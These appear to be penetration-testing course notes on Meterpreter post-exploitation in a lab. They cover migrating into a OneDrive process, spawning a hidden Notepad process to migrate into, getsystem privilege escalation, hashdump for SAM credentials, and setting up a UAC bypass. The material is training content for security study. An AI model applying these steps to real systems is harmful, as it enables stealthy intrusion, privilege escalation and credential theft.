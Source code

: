 We successfully migrated our process to the OneDrive process
+ When reviewing the process list, we'll find our original process, _met.exe_ with ID 2552, does not exist anymore
+ Furthermore, we'll notice that the _ps_ output contains less information than before
+ The reason for this is that we are now running in the context of the process with the ID 8052 and therefore, as user _offsec_
```
eterpreter > getuid
Server username: ITWK01\offsec
```

Instead of migrating to an existing process or a situation in which we won't find any suitable processes to migrate to, we can use the _execute_ Meterpreter command
+ This command provides the ability to create a new process by specifying a command or program

To demonstrate this, let's start a hidden Notepad process and migrate to it as user _offsec_
+ For this, we use **execute** with **-H** to create the process hidden from view and _notepad_ as argument for **-f** to specify the command or program to run
+ Then, we migrate to the newly spawned process
+ Usage:
```
execute -H -f notepad
migrate <ID>
```
+ We then migrate to that new notepad process 
+ Since we used the option **-H**, the Notepad process was spawned without any visual representation
+ However, the process is still listed in the process list of applications such as the task manager

Meterpreter offers a variety of other interesting post-exploitation modules such as _hashdump_, which dumps the contents of the SAM database or _screenshare_, which displays the target machine's desktop in real-time
+ While these Meterpreter features are quite powerful, Metasploit contains numerous post-exploitation modules that extend the basic post-exploitation features we explored in this section

### Post-Exploitation Modules
In addition to native commands and actions in the core functions of Meterpreter, there are several post-exploitation modules we can deploy against an active session

Sessions that were created through attack vectors such as the execution of a client-side attack will likely provide us only with an unprivileged shell
+ But if the target user is a member of the local administrators group, we can elevate our shell to a high integrity level if we can bypass _User Account Control_ (UAC)

In the previous section, we migrated our Meterpreter shell to a _OneDrive.exe_ process that is running at (presumably) medium integrity
+ For this section, let's repeat the steps from the previous section and then bypass UAC with a Metasploit post-exploitation module to obtain a session in the context of a high integrity level process

As before, we connect to the bind shell on port 4444 on ITWK01, download and execute **met.exe**, and enter **getsystem** to elevate our privileges
+ Then, we use **ps** to identify the process ID of _OneDrive.exe_, and **migrate** to it:
```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > ps

Process List
============

 PID    PPID  Name                         Arch  Session  User                          Path
 ---    ----  ----                         ----  -------  ----                          ----
...
 8044   3912  OneDrive.exe                 x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive\OneDrive.exe
```